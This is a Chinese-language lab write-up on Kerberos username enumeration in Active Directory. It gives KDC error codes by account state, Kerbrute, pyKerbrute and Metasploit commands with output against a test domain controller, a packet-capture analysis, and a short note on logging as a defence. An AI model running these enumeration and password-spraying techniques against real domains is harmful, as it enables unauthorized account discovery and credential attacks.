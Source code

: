 在Kerberos可以在无域内权限的情况下，请求包cname的值对应是用户名，根据响应结果的不同枚举用户名，并进行密码喷洒。

| <font style="color:rgb(66, 66, 66);">用户状态</font> | **<font style="color:rgb(66, 66, 66);">Kerberos 错误信息</font>** |
| --- | --- |
| <font style="color:rgb(66, 66, 66);">用户启用</font> | <font style="color:rgb(66, 66, 66);">KDC_ERR_PREAUTH_REQUIRED</font> |
| <font style="color:rgb(66, 66, 66);">用户锁定</font> | <font style="color:rgb(66, 66, 66);">KDC_ERR_CLIENT_REVOKED</font> |
| <font style="color:rgb(66, 66, 66);">用户不存在</font> | <font style="color:rgb(66, 66, 66);">KDC_ERR_C_PRINCIPAL_UNKNOWN</font> |

# 一、域内用户名枚举工具
## 1、Kerbrute
```plain
(base) PS C:\Security\github\kerbrute> .\kerbrute_windows_386.exe userenum --dc 192.168.30.2 -d sec.com .\usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 08/19/24 - Ronnie Flathers @ropnop

2024/08/19 00:47:26 >  Using KDC(s):
2024/08/19 00:47:26 >   192.168.30.2:88
2024/08/19 00:47:26 >  [+] VALID USERNAME:       test1@sec.com
2024/08/19 00:47:26 >  [+] VALID USERNAME:       test2@sec.com
2024/08/19 00:47:26 >  [+] VALID USERNAME:       administrator@sec.com
2024/08/19 00:47:36 >  Done! Tested 81481 usernames (3 valid) in 10.395 seconds
(base) PS C:\Security\github\kerbrute>
```

## 2、pyKerbrute
```plain
C:\root\tools\pyKerbrute> python2 EnumADUser.py 192.168.30.2 sec.com usernames.txt tcp
[*] DomainControlerAddr: 192.168.30.2
[*] DomainName:          SEC.COM
[*] UserFile:            usernames.txt
[*] Using TCP to enumerate valid Active Directory accounts.
[+] Valid user: test1
[+] Valid user: administrator

```

注：不建议使用，较慢，可能少结果

## 3、MSF模块
```plain
msf6 > use auxiliary/gather/kerberos_enumusers
msf6 auxiliary(gather/kerberos_enumusers) > set domain sec.com
domain => sec.com
msf6 auxiliary(gather/kerberos_enumusers) > set rhosts 192.168.30.2
rhosts => 192.168.30.2
msf6 auxiliary(gather/kerberos_enumusers) > set user_file /root/tools/pyKerbrute/usernames.txt
user_file => /root/tools/pyKerbrute/usernames.txt
msf6 auxiliary(gather/kerberos_enumusers) > exploit

[*] Using domain: SEC.COM - 192.168.30.2:88      ...
[*] 192.168.30.2 - User: "3d" user not found
[*] 192.168.30.2 - User: "a" user not found
[*] 192.168.30.2 - User: "a1" user not found
[*] 192.168.30.2 - User: "aa" user not found
[*] 192.168.30.2 - User: "aaberg" user not found
[*] 192.168.30.2 - User: "aachen" user not found
[*] 192.168.30.2 - User: "aalborg" user not found
[*] 192.168.30.2 - User: "aalesund" user not found
[*] 192.168.30.2 - User: "aalii" user not found
[*] 192.168.30.2 - User: "aalst" user not found
[*] 192.168.30.2 - User: "aalto" user not found

```

注：速度仅次于Kerbrute，可能是线程原因

# 二、域内用户名枚举抓包分析
使用msf模块kerberos_enumusers，且字典放入三个用户名，administrator存在且有效，hack存在但禁用，error1不存在，启动wireshark抓包。

```plain
smsf6 >use auxiliary/gather/kerberos_enumusers
msf6 auxiliary(gather/kerberos_enumusers) > set domain sec.com
domain => sec.com
msf6 auxiliary(gather/kerberos_enumusers) > set rhosts 192.168.30.2
rhosts => 192.168.30.2
msf6 auxiliary(gather/kerberos_enumusers) > set user_file /root/tmp/test.txt
user_file => /root/tmp/test.txt
msf6 auxiliary(gather/kerberos_enumusers) > exploit

[*] Using domain: SEC.COM - 192.168.30.2:88      ...
[+] 192.168.30.2 - User: "administrator" is present
[!] No active DB -- Credential data will not be saved!
[-] 192.168.30.2 - User: "hack" account disabled or expired
[*] 192.168.30.2 - User: "error1" user not found
[*] Auxiliary module execution completed

```

可以得出结论，三种用户情况会有不同的Kerberos响应

![](../images/f4fa7adabcb1322a30f865e2c909adb6.png)

# 三、域内用户名枚举防御
1、在注册表启用Kerberos事件日志

理论上启动后，事件记录器应该有日志，暂时找不出来为什么没有出现4768日志ID的原因。

参考：[https://learn.microsoft.com/zh-cn/troubleshoot/windows-server/active-directory/enable-kerberos-event-logging](https://learn.microsoft.com/zh-cn/troubleshoot/windows-server/active-directory/enable-kerberos-event-logging)